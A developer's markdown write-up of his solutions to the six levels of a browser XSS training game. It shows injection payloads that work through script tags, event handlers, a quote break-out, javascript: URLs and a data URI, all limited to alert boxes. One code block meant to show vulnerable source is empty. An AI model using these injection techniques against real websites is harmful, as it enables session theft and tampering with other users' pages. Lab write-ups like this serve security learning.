







# XSS-Game lab
Roger Ramirez Espejo.
Software developer, architect and enthusiast.

## Table of contents
- [XSS-Game lab](#xss-game-lab)
  * [Table of contents](#table-of-contents)
  * [Introduction](#introduction)
  * [Level 1.](#level-1)
  * [Level 2.](#level-2)
  * [Level 3](#level-3)
  * [Level 4](#level-4)
  * [Level 5](#level-5)
  * [Level 6](#level-6)
  * [Game completed](#Game-completed)
  

## Introduction
This document contains my solutions to the levels of the XSS game https://xss-game.appspot.com 

##  Level 1.
The field was vulnerable to `script` tag:
```
<script>alert("roger")</script>
```


## Level 2.
`Script` tag can't be used anymore reason why I created a comment with a link, injecting the `alert` in the `onclick` event:
```
<a href="url" onclick="alert('roger')">link text</a>
```


## Level 3
Every time I clicked in a tab the following error appeared:
```
Uncaught TypeError: urlbar is null
    updateURLBar https://xss-game.appspot.com/static/game.js:45
    <anonymous> https://xss-game.appspot.com/static/game.js:40
```

The game's hint suggested the usage of `window.location` reason why I injected the alert into the `onerror` event:

```
https://xss-game.appspot.com/level3/frame#3' onerror="alert('roger')"
```


## Level 4
This was really tricky, the timer is being injected in the line 21 of the file `timer.html`:

```

```

Then what I did is to inject two lines of code, first line injecting the number `33` and then `;` with the `alert` completing the next part of the second line as follows:

```
33');alert('roger
```


## Level 5
The only way to solve this is to manage to pass javascript to the `next` parameter. Since I didn't know how to do that thanks to this [Reference](https://security.stackexchange.com/questions/222290/url-parameter-manipulation-and-injection) I could send the value `javascript:alert("roger")` I sent the value encoded but probably was not needed:
```
https://xss-game.appspot.com/level5/frame/signup?next=javascript%3Aalert%28%27roger%27%29
```


## Level 6
Thanks to the [URI data scheme](https://en.wikipedia.org/wiki/Data_URI_scheme) I could send the javascript alert by using the data scheme `data:javascript,alert('roger')`, as follows:
```
https://xss-game.appspot.com/level6/frame#data:javascript,alert('roger')
```


## Game completed
